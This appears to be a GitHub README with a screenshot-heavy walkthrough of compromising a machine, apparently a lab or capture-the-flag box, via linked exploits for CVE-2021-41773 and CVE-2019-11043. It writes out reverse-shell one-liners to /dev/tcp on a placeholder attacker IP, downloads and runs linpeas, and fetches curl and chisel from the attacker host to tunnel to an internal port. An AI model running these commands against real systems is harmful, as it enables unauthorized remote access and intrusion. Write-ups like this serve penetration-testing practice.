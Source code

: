 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4d4ad3c-1541-447c-a73b-67b7ca1bf72e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0e07a52c-5aa8-4bd7-93be-1fe3457aac05)

https://github.com/thehackersbrain/CVE-2021-41773

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e03e316-d3b7-4187-a977-1b08db74fba6)
```
echo 'sh -i >& /dev/tcp/IP/1234 0>&1' > /tmp/test.sh
bash /tmp/test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6edf1dfb-f269-4aa0-994a-79eb5dc28257)

```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
bash linpeas.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4f187bf2-4316-4949-bdcf-8902ed0246b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72e4ebfc-5cc0-41a3-ac9c-35b6b2dda127)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f288dc0d-17c5-4572-b3a7-46a87cb607e8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a864a1d-7f09-4478-8b9f-5106f7410759)

CVE-2019-11043

https://github.com/moparisthebest/static-curl?tab=readme-ov-file

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/18460f00-9053-4af5-9108-92c3abc2b7eb)
```
wget http://IP:1234/curl-amd64
chmod +x curl-amd64
./curl-amd64 http://127.0.0.1:80
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6987c432-c67c-409f-8dc2-91cc9272f4d0)

https://github.com/jpillora/chisel/releases/tag/v1.9.1
```
./chisel server -p 1234 --reverse
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6d16e017-eb15-4f8f-bbe0-772e4a01f363)
```
wget http://IP:1234/chisel
chmod +x chisel
./chisel client IP_HACK:1234 R:80:127.0.0.1:80
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d051de34-9e9b-452f-9ca3-201704d6cd73)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eef2862f-a604-4fc4-ae71-2b1a7ef9038f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a30c2f11-b58c-419d-899a-6fbbb16496ce)

https://github.com/theMiddleBlue/CVE-2019-11043

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eb553580-a068-406a-9aee-61909880d0fb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/09a96a75-dd12-425a-869c-0e9631f125c3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dd5232af-fc2f-470a-8e89-9721c9eb5282)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4767b80-c7ee-4345-9048-f9ad2b280c32)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e6a7965e-d292-4b55-923c-3cefe8915bc0)
```
echo 'sh -i >& /dev/tcp/IP/443 0>&1' > test.sh
bash test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0c1e30b4-bf30-40b6-bff1-f81a11a5eef1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6c10bb11-47fb-40b8-80a2-7704d73ce88e)


![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db6c8c2a-7038-4e1d-b156-8da4b417cd43)

